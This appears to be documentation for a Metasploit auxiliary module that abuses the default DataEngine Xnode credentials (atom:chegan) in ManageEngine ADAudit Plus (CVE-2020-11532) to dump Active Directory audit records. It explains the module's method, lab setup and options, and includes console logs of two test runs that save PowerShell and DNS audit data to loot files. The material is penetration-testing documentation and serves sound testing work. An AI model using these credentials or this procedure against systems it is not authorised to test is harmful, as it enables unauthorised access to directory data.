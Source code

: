 ## Vulnerable Application
The module exploits default admin credentials for the DataEngine Xnode server in ADAudit Plus versions prior to 6.0.3 (6032)
in order to dump the contents of Xnode data repositories (tables), which may contain varying amounts of Active Directory information
including domain names, host names, usernames and SIDs.
The module can also be used against patched ADAudit Plus versions if the correct credentials are provided.

The module's `check` method attempts to authenticate to the remote Xnode server. The default credentials are `atom`:`chegan`.
If the credentials are valid, the module will perform a few requests to the Xnode server to obtain information like the Xnode version.
This is mostly done as a sanity check to ensure the Xnode server is working as expected.

Next, the module will iterate over a list of known Xnode data repositories and perform several requests for each in order to:
- Check if the data repository is configured on the target
- Obtain the total number of records in the data repository
- Obtain both the lowest and the highest value for the ID field (column). These values will be used
to determine the range of possible records to be queried.

If a given data repository exists, the module uses the above information to dump the data repository contents.
The maximum number of records returned for a search query is 10. To overcome this, the module performs series of requests
using the `dr:/dr_search` action, while specifying the ID values for each record.
For example, if the lowest observed ID value is 15 and the highest is 41, the module will perform three requests:
1. A request for the records with ID values 15 to 24
2. A request for the records with ID values 25 to 34
3. A request for the records with ID values 35 to 41
Empty records are ignored.

To view the raw Xnode requests and responses, enter `set VERBOSE true` before running the module.

By default, the module dumps only the data repositories (tables) and fields (columns) specified in the configuration file.
The configuration file can be set via the CONFIG_FILE option, but this is not required because
a default config file exists at `data/exploits/manageengine_xnode/CVE-2020-11532/adaudit_plus_xnode_conf.yaml`.
The configuration file is then also used to add labels to the values sent by Xnode in response to a query.
This means that for every value in the Xnode response, the module will add the corresponding field name to the results
before writing those to a JSON file in ~/.msf4/loot.

It is also possible to use the DUMP_ALL option to obtain all data in all known data repositories without specifying data field names.
However, in the latter case the data won't be labeled.

This module has been successfully tested against ManageEngine ADAudit Plus 6.0.3 (6031) running on Windows Server 2012 R2
and ADAudit Plus 6.0.7 (6076) running on Windows Server 2019.

## Installation Information
Vulnerable versions of ADAudit Plus are available [here](https://archives2.manageengine.com/active-directory-audit/).
All versions from 6000 through 6031 are configured with default Xnode credentials.
However, testing against vulnerable versions from the archives will make data enumeration impossible because
the free trials for those versions do not seem to allow ADAudit Plus to
actually start collecting data that can then be accessed via Xnode.
However, apart from some configuration changes, Xnode functions the same way on patched versions as it does on vulnerable versions,
so it is possible to test the modules against patched versions as long as the correct credentials are provided.
A free 30-day trial of the latest version of ADAudit Plus can be downloaded
[here](https://www.manageengine.com/products/active-directory-audit/download.html).
To install, just run the .exe and follow the instructions.
In order to configure a patched ManageEngine ADAudit Plus instance for testing, follow these steps:
- Open the Xnode config file at `<install_dir>\apps\dataengine-xnode\conf\dataengine-xnode.conf`
- Note down the username and password
- Insert the following line:
```
xnode.connector.accept_remote_request = true
```
To launch ADAudit Plus, run Command Prompt as administrator and run: `<install_dir>\bin\run.bat`

## Verification Steps
1. Start msfconsole
2. Do: `use auxiliary/gather/manageengine_adaudit_plus_xnode_enum`
3. Do: `set RHOSTS [IP]`
4. Do: `run`

## Options
### CONFIG_FILE
YAML File specifying the data repositories (tables) and fields (columns) to dump.
### DUMP_ALL
Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.

## Scenarios
### ManageEngine ADAudit Plus 6.0.3 (6031) running on Windows Server 2012 R2
```
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > options

Module options (auxiliary/gather/manageengine_adaudit_plus_xnode_enum):

   Name         Current Setting                                                Required  Description
   ----         ---------------                                                --------  -----------
   CONFIG_FILE  /home/wynter/dev/metasploit-framework/data/exploits/manageeng  no        YAML file specifying the data repositories (tables) and fields (columns) to dump
                ine_xnode/CVE-2020-11532/adaudit_plus_xnode_conf.yaml
   DUMP_ALL     false                                                          no        Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.
   PASSWORD     chegan                                                         yes       Password used to authenticate to the Xnode server
   RHOSTS       192.168.1.41                                                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        29118                                                          yes       The target port (TCP)
   USERNAME     atom                                                           yes       Username used to authenticate to the Xnode server

msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > run
[*] Running module against 192.168.1.41

[*] 192.168.1.41:29118 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.1.41:29118 - Target seems to be Xnode.
[+] 192.168.1.41:29118 - The target appears to be vulnerable. Successfully authenticated to the Xnode server.
[*] 192.168.1.41:29118 - Obtained expected Xnode "de_healh" status: "GREEN".
[*] 192.168.1.41:29118 - Target is running Xnode version: "XNODE_1_0_0".
[*] 192.168.1.41:29118 - Obtained Xnode installation path: "C:\Program Files (x86)\ManageEngine\ADAudit Plus\apps\dataengine-xnode".
[*] 192.168.1.41:29118 - Data repository AdapFileAuditLog is empty.
[*] 192.168.1.41:29118 - The data repository AdapPowershellAuditLog is not available on the target.
[*] 192.168.1.41:29118 - The data repository AdapSysMonAuditLog is not available on the target.
[*] 192.168.1.41:29118 - The data repository AdapDNSAuditLog is not available on the target.
[*] 192.168.1.41:29118 - The data repository AdapADReplicationAuditLog is not available on the target.
[*] Auxiliary module execution completed
```
### ManageEngine ADAudit Plus 6.0.7 (6076) running on Windows Server 2019 (custom password)
```
msf6 > use auxiliary/gather/manageengine_adaudit_plus_xnode_enum
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > set rhosts 192.168.1.25
rhosts => 192.168.1.25
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > set password custom_password
password => custom_password
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > options 

Module options (auxiliary/gather/manageengine_adaudit_plus_xnode_enum):

   Name         Current Setting                                                                                                 Required  Description
   ----         ---------------                                                                                                 --------  -----------
   CONFIG_FILE  /root/github/manageengine/metasploit-framework/data/exploits/manageengine_xnode/CVE-2020-11532/adaudit_plus_xn  no        YAML file specifying the data repositories (tables) and fields (columns) to dump
                ode_conf.yaml
   DUMP_ALL     false                                                                                                           no        Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.
   PASSWORD     custom_password                                                                                                 yes       Password used to authenticate to the Xnode server
   RHOSTS       192.168.1.25                                                                                                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        29118                                                                                                           yes       The target port (TCP)
   USERNAME     atom                                                                                                            yes       Username used to authenticate to the Xnode server

msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > run

[*] Running module against 192.168.1.25

[*] 192.168.1.25:29118 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.1.25:29118 - The target appears to be vulnerable. Successfully authenticated to the Xnode server.
[*] 192.168.1.25:29118 - Obtained expected Xnode "de_healh" status: "GREEN".
[*] 192.168.1.25:29118 - Target is running Xnode version: "DataEngine-XNode 1.1.0 (1100)".
[*] 192.168.1.25:29118 - Obtained Xnode installation path: "C:\Program Files\ManageEngine\ADAudit Plus\apps\dataengine-xnode".
[*] 192.168.1.25:29118 - Data repository AdapFileAuditLog is empty.
[+] 192.168.1.25:29118 - Data repository AdapPowershellAuditLog contains 261 records with ID numbers between 1.0 and 303.0.
[*] 192.168.1.25:29118 - Data repository AdapSysMonAuditLog is empty.
[+] 192.168.1.25:29118 - Data repository AdapDNSAuditLog contains 722 records with ID numbers between 1.0 and 926.0.
[*] 192.168.1.25:29118 - Data repository AdapADReplicationAuditLog is empty.
[*] 192.168.1.25:29118 - Attempting to request 261 records for data repository AdapPowershellAuditLog between IDs 1 and 303. This could take a while...
[*] 192.168.1.25:29118 - Processed 25 queries (max 10 records per query) so far. The last queried record ID was 250. The max ID is 303...
[+] 192.168.1.25:29118 - Saving 261 records from the AdapPowershellAuditLog data repository to /root/.msf4/loot/20220610073738_default_192.168.1.25_xnode_powershell_099421.json
[*] 192.168.1.25:29118 - Attempting to request 722 records for data repository AdapDNSAuditLog between IDs 1 and 926. This could take a while...
[*] 192.168.1.25:29118 - Processed 25 queries (max 10 records per query) so far. The last queried record ID was 250. The max ID is 926...
[*] 192.168.1.25:29118 - Processed 50 queries (max 10 records per query) so far. The last queried record ID was 500. The max ID is 926...
[*] 192.168.1.25:29118 - Processed 75 queries (max 10 records per query) so far. The last queried record ID was 750. The max ID is 926...
[+] 192.168.1.25:29118 - Saving 722 records from the AdapDNSAuditLog data repository to /root/.msf4/loot/20220610073754_default_192.168.1.25_xnode_dnsaudit_775121.json
[*] Auxiliary module execution completed
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) >
```
